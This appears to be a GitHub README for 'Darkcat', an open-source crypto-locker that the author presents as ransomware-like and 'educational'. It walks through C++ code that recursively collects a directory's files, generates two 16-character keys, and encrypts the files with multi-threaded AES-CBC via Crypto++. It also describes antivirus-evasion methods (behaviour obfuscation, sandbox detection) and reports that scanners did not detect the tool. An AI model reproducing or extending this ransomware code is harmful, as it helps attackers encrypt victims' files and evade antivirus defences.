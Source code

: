 
**DISCLAIMER**: This tool is intended for educational purposes only.
The author assumes no responsibility or liability for any damages
caused by the execution of this algorithm, use at your own risk.

# 74E>64G Project - A Strong Prototype Locker
Darkcat is an Open Source Crypto-locker directed at an audience with an interest in the field of Cyber Security. The locker is similar to how very obnoxious Ransomewares operate using 2-Layer Key Encryption with the intent of making it almost impossible to recover any key from memory even during the event of Encryption. It utilizes Multi-threaded 128-bit AES Encryption which makes it very fast with the cost of leaving somewhat of a footprint on the CPU for modern activity based Antivirus Softwares to pick up. My Kaspersky didn't detect any suspicious activity in most runs, especially ones that didn't involve lots of files, with that being said the algorithm logs keys on the console but doesn't save any, so use at your own risk.
```c
/*   -0-    ,    *     o    .     *    .    o    .  -O-   '  *  . o
 *  .  '     ____  ____  ____  _  __ ____  ____  _____  .  '  ,  *
 *     .  * /  _ \/  _ \/  __\/ |/ //   _\/  _ \/__ __\  *  . |  '
 *  *     . | | \|| / \||  \/||   / |  /  | / \|  / \  '  ,  o  '
 *  .  '    | |_/|| |-|||    /|   \ |  \_ | |-||  | | ' |   *   .
 *  '  *  . \____/\_/ \|\_/\_\\_|\_\\____/\_/ \|  \_/ *     .    o
 *  *    '  ,     '     .    -0-    .    *    .  ' |   ,   *    '
 * Alexander
 * Toepfer 2020
 */
```

![Preview](in-the-wild.gif)

## Summary
  1. AV Evasion techniques used to bypass Engines.
  2. Fetching files recursively from a given root directory.
  3. Generation of 128-bit Keys used for Encryption.
  4. Multi-threaded Encryption applied on sorted vector of files.

## AV Evasion techniques
The techniques used for AV Engine Evasion in Darkcat are Behaviour Obfuscation, Data Encryption and Sandbox Detection which make it fairly successful in dealing with most Engines that analyze the binary or execute it, but it is still far from perfect, as some elaborate AV Softwares using analysis based on Machine learning still detect malicious activity, which makes this implementation not FUD. In the following Code Snippets all of the above mentioned techniques will be left out, as otherwise the Source Code would be unreadable.

## Fetching files from directory
```c
    std::string path = "C:\\Path\\To\\Testfolder";
    /* First loop identifying files */
    std::vector< file > files;
    for( const auto& entry : std::filesystem::recursive_directory_iterator( path ) ) {
        if( std::filesystem::is_regular_file( entry.path() ) ) {
            /* Ignore any keyfiles in the directory */
            if( entry.path().filename() == keyfilestr )
                continue;
            /* Ignore certain files in certain modes */
            if( ( ( entry.path().extension() == fileExtension ) && encrypt ) ||
                ( ( entry.path().extension() != fileExtension ) && !encrypt ) )
                continue;
            file f( entry.path(), std::filesystem::file_size( entry.path() ) );
            /* Ignore files that are included already */
            if( std::find( files.begin(), files.end(), f ) != files.end() )
                continue;
            files.push_back( f );
        }
    }
    /* Sort by size with file.operator>() */
    std::sort( files.begin(), files.end() );
```
You could also do this with Boost instead of \<filesystem\> but it comes down to preference. You will also need to implement a file class for this implementation to work to store file information and for sorting, but that's not really a requirement, feel free to use an array of filesystem::path if that fits your needs.

## 128-bit Key Generation
```c
std::string randomString( size_t length ) {
    /* Function returning the charset used */
    const auto chset = charset();
    std::default_random_engine rng( std::random_device{}() );
    /* Uniformly distributed values on closed interval */
    std::uniform_int_distribution<> dist( 0, chset.size() - 1 );
    /* Function returning a random character from charset */
    auto randchar = [ chset, &dist, &rng ]() { return chset[ dist( rng ) ]; };
    std::generate_n( str.begin(), length, randchar );
    return str;
}
std::string key1 = randomString( 16 ), key2 = randomString( 16 );
```
You could also use rand() with modulo here to just generate n-indices for your charset but i prefer this solution even though seeding the random generator is a complete nightmare and the standard makes no guarantees about its quality, efficiency or repeatability between implementations.

## Multi-threaded Encryption
```c
/* Second loop alter files */
std::vector< std::thread > threads;
for( const auto& f : files ) {
    if( encrypt ) {
	    std::thread t( fileEncrypt,  f.path, key, iv );
		threads.emplace_back( std::move( t ) );
	}
	else ...
}
/* Wait for processes to finish */
for( int i = 0; i < threads.size(); ++i ) {
    threads[ i ].join();
}

/* Crypto++ encryption of std::string */
std::string stringEncrypt( std::string plain,
                           CryptoPP::byte key[ CryptoPP::AES::DEFAULT_KEYLENGTH ],
                           CryptoPP::byte iv[ CryptoPP::AES::BLOCKSIZE ] ) {
    std::string cipher;
    CryptoPP::AES::Encryption aesEncryption( key, CryptoPP::AES::DEFAULT_KEYLENGTH );
    CryptoPP::CBC_Mode_ExternalCipher::Encryption cbcEncryption( aesEncryption, iv );
    CryptoPP::StreamTransformationFilter stfEncryptor( cbcEncryption,
					               new CryptoPP::StringSink( cipher ) );
    stfEncryptor.Put( reinterpret_cast< const unsigned char* >( plain.c_str() ),
					  plain.length() );
    stfEncryptor.MessageEnd();
    return cipher;
}
```
For AES-128 I didn't make my own implementation here because the solution needs to be somewhat fast and reliable, but I can see making an adaptation could help with more AV Evasion in the long run so it's very tempting.

## Virustotal

![Preview](virustotal-scan.gif)

## Copyright and license
Code and documentation copyright 2021 Alexander Töpfer. Code released under the MIT License
